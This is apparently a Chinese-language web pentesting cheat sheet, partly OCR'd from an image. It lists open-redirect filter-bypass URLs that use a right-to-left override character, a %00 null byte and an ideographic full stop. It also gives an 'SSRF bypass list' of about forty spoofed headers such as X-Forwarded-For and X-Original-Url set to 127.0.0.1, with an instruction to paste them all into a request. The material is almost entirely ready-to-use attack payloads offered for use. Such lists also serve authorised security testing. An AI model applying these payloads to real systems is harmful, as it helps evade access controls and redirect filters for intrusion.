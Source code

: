 ```plain
#自右向左大法：
https://google.com/redirect.php?redirect=%40%E2%80%AE@moc.koobecaf

#空字节%00 绕过黑名单过滤器：
https://google.com/redirect.php?redirect=facebook%00.com

#'%E3%80%82' or '。'绕过：
https://google.com/redirect.php?redirect=facebook%E3%80%82com
https://google.com/redirect.php?redirect=facebook. com
```

## SSRF 绕过列表

PS：复制以下所有标头并粘贴到请求中

```plain
Base-Url: 127.0.0.1
Client-IP: 127.0.0.1
Http-Url: 127.0.0.1
Proxy-Host: 127.0.0.1
Proxy-Url: 127.0.0.1
Real-Ip: 127.0.0.1
Redirect: 127.0.0.1
Referer: 127.0.0.1
Referrer: 127.0.0.1
Refferer: 127.0.0.1
Request-Uri: 127.0.0.1
Uri: 127.0.0.1
Url: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Port: 443
X-Forwarded-Port: 4443
X-Forwarded-Port: 80
X-Forwarded-Port: 8080
X-Forwarded-Port: 8443
X-Forwarded-Scheme: http
X-Forwarded-Scheme: https
X-Forwarded-Server: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Host: 127.0.0.1
X-Http-Destinationurl: 127.0.0.1
X-Http-Host-Override: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Proxy-Url: 127.0.0.1
X-Real-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Rewrite-Url: 127.0.0.1
X-True-IP: 127.0.0.1
```

